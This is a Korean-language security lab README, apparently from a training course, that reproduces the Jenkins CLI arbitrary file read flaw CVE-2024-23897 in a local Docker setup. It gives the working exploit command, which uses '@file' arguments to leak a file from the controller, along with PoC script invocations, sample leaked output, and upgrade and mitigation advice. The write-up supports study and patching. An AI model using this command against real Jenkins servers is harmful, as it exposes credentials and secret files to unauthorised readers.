


# Jenkins CLI 임의 파일 읽기 취약점 (CVE-2024-23897)

## Contributors

* 화이트햇 스쿨 4기 29반 박성준([@hackers458](https://github.com/hackers458))

## 취약점 요약

CVE-2024-23897은 Jenkins CLI에서 발생한 임의 파일 읽기 취약점입니다. Jenkins는 CLI 명령 인자를 처리할 때 Java 라이브러리인 `args4j`를 사용합니다. 취약한 Jenkins 버전에서는 `args4j`의 `expandAtFiles` 기능이 비활성화되지 않아, CLI 인자에 `@파일경로`가 포함되면 해당 경로의 파일 내용이 명령 인자로 확장됩니다.

이 문제로 공격자는 Jenkins 컨트롤러 파일 시스템의 경로를 알고 있을 경우 Jenkins 내부 파일의 일부 내용을 CLI 오류 메시지나 도움말 출력 등을 통해 유출할 수 있습니다. Jenkins 공식 advisory에 따르면 인증되지 않은 공격자는 파일의 일부 라인을 읽을 수 있고, Overall/Read 권한이 있는 공격자는 전체 파일을 읽을 수 있습니다.

## 환경 구성

| 항목 | 값 |
|---|---|
| 대상 제품 | Jenkins |
| CVE | CVE-2024-23897 |
| 취약 버전 | Jenkins 2.441 이하, Jenkins LTS 2.426.2 이하 |
| 실습 버전 | Jenkins 2.441 |
| 취약 기능 | Jenkins CLI `expandAtFiles` |
| 호스트 포트 | 18080 |
| CVSS v3.1 | 9.8 Critical |

다음 명령으로 취약 환경을 빌드하고 실행합니다.

```bash
docker compose up -d --build
```

서비스가 준비되면 다음 주소로 접근할 수 있습니다.

```text
http://localhost:18080
```

실습 컨테이너는 Jenkins 초기 설정 마법사를 비활성화하고, PoC 확인용 파일을 `/var/jenkins_home/cve-2024-23897-secret.txt`에 생성합니다. Dockerfile은 공식 Jenkins `2.441-jdk17` 이미지를 digest로 고정하여 태그 변경에 따른 재현성 저하를 줄였습니다.

제공된 PoC 스크립트는 먼저 실행 PC의 Java로 Jenkins CLI jar를 실행합니다. 실행 PC에 Java가 설치되어 있지 않으면 `docker compose cp`와 `docker compose exec`를 사용해 Jenkins 컨테이너 내부의 Java로 같은 CLI 명령을 실행합니다. Jenkins 최초 부팅 중에는 CLI jar 다운로드가 잠시 실패할 수 있으므로, 제공된 PoC 스크립트는 정상 JAR 파일이 내려올 때까지 최대 120초 동안 재시도합니다.

Windows에서는 PowerShell 실행을 권장합니다. Git Bash에서 핵심 명령을 직접 실행하면 MSYS 경로 변환 때문에 `/var/jenkins_home/...` 경로가 로컬 Windows 경로처럼 바뀔 수 있습니다. Git Bash를 사용할 경우에는 다음처럼 경로 변환을 끄고 실행합니다.

```bash
MSYS_NO_PATHCONV=1 java -jar jenkins-cli.jar -s http://localhost:18080/ -http help "@/var/jenkins_home/cve-2024-23897-secret.txt"
```

위 `MSYS_NO_PATHCONV=1` 형식은 Git Bash용입니다. PowerShell에서는 환경 변수 지정이 필요 없으며, `curl`은 PowerShell 별칭과 충돌할 수 있으므로 `curl.exe`를 사용합니다.

## 취약 조건

이 취약점이 재현되려면 다음 조건이 필요합니다.

1. Jenkins 2.441 이하 또는 Jenkins LTS 2.426.2 이하 버전을 사용합니다.
2. Jenkins CLI 엔드포인트에 접근할 수 있습니다.
3. CLI 명령 인자에 `@파일경로`를 포함할 수 있습니다.
4. Jenkins가 CLI 명령 인자를 파싱하면서 `@파일경로`를 파일 내용으로 확장합니다.

Jenkins 공식 advisory는 이 동작이 `args4j`의 `expandAtFiles` 기능 때문에 발생한다고 설명합니다.

## 재현 절차

Jenkins가 응답하는지 확인합니다.

```bash
curl -sS -I http://localhost:18080/login
```

Windows PowerShell에서는 다음 명령을 사용합니다.

```powershell
curl.exe -I http://localhost:18080/login
```

Jenkins가 부팅 중이면 일시적으로 `503 Service Unavailable`이 반환될 수 있습니다. 잠시 기다린 뒤 다시 실행하거나 `http://localhost:18080/login?from=%2F`가 `200 OK`를 반환하는지 확인합니다.

Jenkins CLI jar를 다운로드합니다.

```bash
curl -sS -L -o jenkins-cli.jar http://localhost:18080/jnlpJars/jenkins-cli.jar
```

Windows PowerShell에서는 다음 명령을 사용합니다.

```powershell
curl.exe -fsSL -o jenkins-cli.jar http://localhost:18080/jnlpJars/jenkins-cli.jar
```

인증 없이 Jenkins CLI 명령을 실행하면서 인자로 `@/var/jenkins_home/cve-2024-23897-secret.txt`를 전달합니다.

```bash
java -jar jenkins-cli.jar -s http://localhost:18080/ -http help "@/var/jenkins_home/cve-2024-23897-secret.txt"
```

취약한 Jenkins는 `@파일경로`를 단순 문자열로 처리하지 않고 파일 내용으로 확장합니다. 그 결과 CLI 오류 메시지 또는 도움말 처리 과정에서 파일 내용 일부가 노출됩니다.

## PoC 코드

Linux/macOS 환경에서는 다음 명령을 실행합니다.

```bash
sh poc.sh http://localhost:18080
```

Windows PowerShell 환경에서는 다음 명령을 실행합니다.

```powershell
powershell -ExecutionPolicy Bypass -File .\poc.ps1 http://localhost:18080
```

PoC 핵심 명령은 다음과 같습니다.

```bash
java -jar jenkins-cli.jar -s http://localhost:18080/ -http help "@/var/jenkins_home/cve-2024-23897-secret.txt"
```

## 실행 결과

PoC가 성공하면 Jenkins 컨테이너 내부 파일의 내용이 CLI 응답에 노출됩니다.

```text
ERROR: Too many arguments: This line proves Jenkins CLI expanded the controller-side file.
COMMAND : Name of the command (default: I'm introducing cve-2024-23897 in
           whitehat school)
[+] Vulnerability reproduced: Jenkins CLI expanded @/var/jenkins_home/cve-2024-23897-secret.txt
```

Payload 실행 결과입니다.



Docker compose로 실행한 Jenkins 취약 환경의 웹 접속 확인 화면입니다.



## 대응 방안

* Jenkins weekly는 2.442 이상으로 업그레이드합니다.
* Jenkins LTS는 2.426.3 또는 2.440.1 이상으로 업그레이드합니다.
* 즉시 업그레이드가 어렵다면 Jenkins CLI 접근을 비활성화하거나 네트워크 접근 제어를 적용합니다.
* Jenkins 컨트롤러 파일 시스템에 민감 정보가 평문으로 저장되지 않도록 관리합니다.
* Jenkins credentials, secret key, 설정 파일 등이 노출되었을 가능성이 있으면 관련 비밀값을 교체합니다.

## 참고 자료

* https://nvd.nist.gov/vuln/detail/CVE-2024-23897
* https://www.jenkins.io/security/advisory/2024-01-24/#SECURITY-3314
* https://www.sonarsource.com/blog/excessive-expansion-uncovering-critical-security-vulnerabilities-in-jenkins/
* https://www.cisa.gov/known-exploited-vulnerabilities-catalog?field_cve=CVE-2024-23897

